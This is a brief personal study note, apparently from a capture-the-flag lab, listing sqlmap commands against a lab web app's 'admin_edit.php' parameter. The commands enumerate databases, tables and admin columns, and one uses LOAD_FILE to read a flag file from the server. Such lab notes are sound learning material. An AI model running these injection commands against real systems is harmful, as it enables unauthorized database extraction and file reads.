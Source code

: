  07-08-2024 20:22
Status: #idea
Tags: [[Exploiting]], [[SQL Injections]]

# SQLMap

Comandos usados:

- `sqlmap -u http://10.10.48.53:84/admin_edit.php?bookisbn=1 --dbs`: Obtemos as bases de datos
- `sqlmap -u http://10.10.48.53:84/admin_edit.php?bookisbn=1 -D www_project -T admin --columns`: Obtemos as columnas da tabla admin, na base de datos www_project.
- `sqlmap -u http://10.10.48.53:84/admin_edit.php?bookisbn=1 -D www_project --tables`: Danos as tablas da base de datos.
- sqlmap -u http://10.10.80.230:84/admin_edit.php?bookisbn=1 --\sql-query "select LOAD_FILE('/opt/flag.txt')": Leer archivos.




---
# {{References}}